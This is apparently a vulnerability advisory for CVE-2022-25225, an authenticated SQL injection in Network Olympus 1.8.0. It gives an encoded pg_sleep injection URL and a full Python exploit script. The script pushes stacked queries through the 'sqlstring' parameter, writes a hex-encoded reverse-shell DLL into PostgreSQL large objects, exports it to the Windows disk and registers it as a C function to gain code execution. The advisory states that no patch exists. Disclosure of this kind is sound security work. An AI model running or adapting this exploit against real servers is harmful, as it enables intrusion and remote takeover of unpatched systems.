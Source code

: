 ```yaml
---
slug: advisories/spinetta/
title: Network Olympus 1.8.0 - SQL Injection
authors: Oscar Uribe
writer: ouribe
codename: spinetta
product: Network Olympus 1.8.0
date: 2022-02-23 10:00 COT
cveid: CVE-2022-25225
severity: 9.1
description: Network Olympus 1.8.0 - SQL Injection
keywords: Fluid Attacks, Security, Vulnerabilities, Network Olympus
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                 |
| --------------------- | --------------------------------------------------------------- |
| **Name**              | Network Olympus 1.8.0 - SQL Injection                           |
| **Code name**         | [Spinetta](https://en.wikipedia.org/wiki/Luis_Alberto_Spinetta) |
| **Product**           | Network Olympus                                                 |
| **Affected versions** | Version 1.8.0                                                   |
| **State**             | Public                                                          |
| **Release date**      | 2022-03-07                                                      |

## Vulnerability

|                       |                                                                                  |
| --------------------- | -------------------------------------------------------------------------------- |
| **Kind**              | SQL injection                                                                    |
| **Rule**              | [146. SQL injection](https://docs.fluidattacks.com/criteria/vulnerabilities/146) |
| **Remote**            | Yes                                                                              |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H                                     |
| **CVSSv3 Base Score** | 9.1                                                                              |
| **Exploit available** | No                                                                               |
| **CVE ID(s)**         | [CVE-2022-25225](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25225)  |

## Description

Network Olympus **version 1.8.0** allows an authenticated admin user to inject
SQL queries in `/api/eventinstance` via the `sqlparameter`. It is also possible
to achieve remote code execution in the default installation (PostgreSQL)
by exploiting this issue.

## Proof of Concept

Steps to reproduce

1. Log in to Network Olympus.

2. The application send a request to `/api/eventinstance`
   with a json as parameter in the url, the json parameter
   `sqlparameter` allows to inject sql queries. It can be
   exploited using boolean based sql or stacked queries.

3. The following PoC can be used to make the database sleep for 2 seconds.

    ```html
      /api/eventinstance/{"pagenumber":1,"itemsperpage":100,"order":"asc","sqlparameter":[],"sqlstring":"1=1%2f%2a%2a%2f;select%2f%2a%2a%2fpg_sleep(2);--"}
    ```

4. To achieve command execution it is possible to create a malicious
   DLL and then load it in postgresql.

5. Create a malicious postgres [DLL extension](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html).

6. Create a copy of the exploit found in the following session
   and copy the generated DLL to the same folder
   and rename it to `rev_shell.dll`.

System Information

* Version: Network Olympus 1.8.0 (Trial Version).
* Operating System: Windows 10.
* Database and version: PostgreSQL 10.8,
  compiled by Visual C++ build 1800, 32-bit.

## Exploit

```python
import requests,sys, urllib, string, random, time, binascii
requests.packages.urllib3.disable_warnings()


# encoded UDF rev_shell dll

def read_udf(filename='rev_shell.dll'):
    f = open(filename, 'rb')
    content = f.read()
    return  binascii.hexlify(content)


udf = read_udf()


def login():

    url = "http://172.16.28.140:3000/api/signIn"

    # CHANGE THIS
    json = {"password": "j84sTuh8pmLb2YhVTChcmg==", "username": "admin"}

    s = requests.session()
    s.post(url, json=json)

    return s

def log(msg):
    print(msg)

def make_request(url, sql,s):
    json_query = """{"pagenumber":1,"itemsperpage":100,"order":"asc","sqlparameter":[],"sqlstring":\""""

    sqli = "1=1; %s --" % sql

    sqli = sqli.replace(" ","%2f%2a%2a%2f")

    sqli = json_query + sqli + "\"}"

    log("[*] Executing query: %s" % sql[0:80])
    proxies = {'http':'http://127.0.0.1:8080','https':'https://127.0.0.1:8080'}
    r = s.get(url+sqli, verify=False, proxies=proxies)

    return r


def delete_lo(url, loid,s):
    log("[+] Deleting existing LO...")
    sql = "SELECT lo_unlink(%d)" % loid
    make_request(url, sql, s)


def create_lo(url, loid,s):
    log("[+] Creating LO for UDF injection...")
    sql = "SELECT lo_import('C:\\\\windows\\\\win.ini',%d)" % loid
    make_request(url, sql, s)


def inject_udf(url, loid,s):
    log("[+] Injecting payload of length %d into LO..." % len(udf))

    size = 2048 * 2

    for i in range(0,((len(udf)-1)/size)+1):
        udf_chunk = udf[i*size:(i+1)*size]

        if i == 0:
            sql = "UPDATE PG_LARGEOBJECT SET data=decode('%s', 'hex') where loid=%d and pageno=%d" % (udf_chunk, loid, i)
        else:
            sql = "INSERT INTO PG_LARGEOBJECT (loid, pageno, data) VALUES (%d, %d, decode('%s', 'hex'))" % (loid, i, udf_chunk)

        make_request(url, sql,s)

def export_udf(url, loid,s):
    log("[+] Exporting UDF library to filesystem...")
    sql = "SELECT lo_export(%d, 'C:\\\\Users\\\\Public\\\\rev_shell.dll')" % loid
    make_request(url, sql,s)

def create_udf_func(url,s):
    log("[+] Creating function...")
    #sql = "create or replace function rev_shell(text, integer) returns VOID as 'C:\\Users\\Public\\rev_shell.dll', 'connect_back' language C strict"
    sql = "CREATE OR REPLACE FUNCTION dummy_function(int) RETURNS int AS 'C:\\\\Users\\\\Public\\\\rev_shell.dll', 'dummy_function' LANGUAGE C STRICT;"
    make_request(url, sql,s)

if __name__ == '__main__':
    try:
        server = sys.argv[1].strip()
        port = sys.argv[2].strip()
    except IndexError:
        print("[-] Usage: %s serverIP:port " % sys.argv[0])
        sys.exit()

    sqli_url = "http://%s:%s/api/eventinstance/" % (server,port)

    loid = 1337

    print("[*] Authenticated SQL Injection to RCE")
    print("[*] Network Olympus 1.8.0 ")
    print

    s = login()

    delete_lo(sqli_url, loid,s)
    create_lo(sqli_url, loid,s)
    inject_udf(sqli_url, loid,s)
    export_udf(sqli_url, loid,s)
    create_udf_func(sqli_url,s)
```

## Mitigation

By 2022-03-07 there is not a patch resolving the issue.

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of  `Fluid Attacks`.

## References

**Vendor page** <https://www.network-olympus.com/monitoring/>

## Timeline

<time-lapse
  discovered="2022-02-22"
  contacted="2022-02-23"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-03-07">
</time-lapse>